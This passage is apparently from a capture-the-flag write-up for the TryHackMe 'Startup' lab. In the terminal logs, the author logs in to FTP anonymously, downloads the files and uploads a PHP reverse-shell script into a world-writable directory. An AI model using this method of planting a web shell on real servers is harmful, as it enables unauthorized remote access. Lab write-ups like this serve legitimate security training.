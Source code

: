 ```
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
226 Directory send OK.
ftp> mget *
mget ftp?
200 PORT command successful. Consider using PASV.
550 Failed to open file.
mget important.jpg?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
226 Transfer complete.
251631 bytes received in 0.59 secs (417.2951 kB/s)
mget notice.txt?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00 secs (140.4737 kB/s)
ftp> cd ftp
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
226 Directory send OK.
ftp>
```

`but Maya is looking pretty sus.`

```
kali@kali:~/CTFs/tryhackme/Startup$ ftp 10.10.36.184
Connected to 10.10.36.184.
220 (vsFTPd 3.0.3)
Name (10.10.36.184:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
-rw-r--r--    1 0        0               5 Nov 12 04:53 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (67.1729 MB/s)
ftp> exit
221 Goodbye.
```